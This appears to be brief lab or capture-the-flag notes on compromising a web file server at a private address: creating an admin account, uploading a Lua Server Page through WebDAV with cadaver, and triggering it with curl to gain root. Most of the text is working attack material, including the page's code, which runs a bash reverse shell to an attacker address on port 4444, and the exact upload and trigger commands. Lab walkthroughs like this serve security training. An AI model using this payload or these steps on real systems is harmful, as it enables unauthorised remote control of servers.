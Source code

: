 -  navigate to [http://192.168.196.25:8082/](#http://192.168.196.25:8082/)

-  create admin account
-  admin:admin123
-  web\-file\-server -  fs - 
[https://192.168.196.25:9999/fs/993848770bde184e5d3708f3/](#https://192.168.196.25:9999/fs/993848770bde184e5d3708f3/)


## LSP \(Lua Server Page reverse shell script\)

\<div style="margin\-left:auto;margin\-right: auto;width: 350px;"\>

\<div id="info"\>
\<h2\>Lua Server Pages Reverse Shell\</h2\>
\<p\>Delightful, isn't it?\</p\>
\</div\>

\<?lsp if request:method\(\) == "GET" then ?\>
\<?lsp os\.execute\("bash \-c 'bash \-i \>\& /dev/tcp/192\.168\.45\.221/4444 0\>\&1'"\) ?\>
\<?lsp else ?\>
You sent a \<?lsp=request:method\(\)?\> request
\<?lsp end ?\>

\</div\>
-  cadaver
-  open [https://192.168.196.25:9999/fs/993848770bde184e5d3708f3/](#https://192.168.196.25:9999/fs/993848770bde184e5d3708f3/)

dav:/fs/993848770bde184e5d3708f3/\> cd \.\.
Authentication required for Web File Server on server \`192\.168\.196\.25':
Username: admin
Password: admin123
dav:/fs/\> put shell\.lua

-  curl [https://192.168.196.25:9999/shell.lsp](#https://192.168.196.25:9999/shell.lsp)
\-k \-u 'admin:admin123'
#root